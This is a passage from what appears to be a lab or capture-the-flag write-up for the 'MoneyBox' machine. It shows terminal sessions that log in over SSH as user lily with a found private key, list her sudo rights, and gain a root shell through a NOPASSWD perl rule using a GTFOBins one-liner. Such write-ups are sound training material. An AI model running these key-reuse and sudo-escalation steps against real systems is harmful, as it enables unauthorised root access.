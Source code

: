 Interesting, looks like renu is using an id_rsa key to SSH in as lily. Lets try the key in their .ssh folder to do this:

```text
┌──(ryan㉿kali)-[~/PG/Moneybox]
└─$ chmod 600 id_rsa
                                                                                                                             
┌──(ryan㉿kali)-[~/PG/Moneybox]
└─$ ssh -i id_rsa lily@192.168.235.230
Linux MoneyBox 4.19.0-22-amd64 #1 SMP Debian 4.19.260-1 (2022-09-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Feb 26 09:07:47 2021 from 192.168.43.80
lily@MoneyBox:~$ whoami
lily
```

Cool, that worked. Taking a look at what the user lily can run as sudo, we find perl:

```text
lily@MoneyBox:~$ sudo -l
Matching Defaults entries for lily on MoneyBox:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User lily may run the following commands on MoneyBox:
    (ALL : ALL) NOPASSWD: /usr/bin/perl
```

Heading to https://gtfobins.github.io/gtfobins/perl/#sudo we get the exact command we'll need to exploit this:

![gtfo.png](../assets/moneybox_assets/gtfo.png)

Lets try it:

```text
lily@MoneyBox:~$ sudo perl -e 'exec "/bin/sh";'
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
```
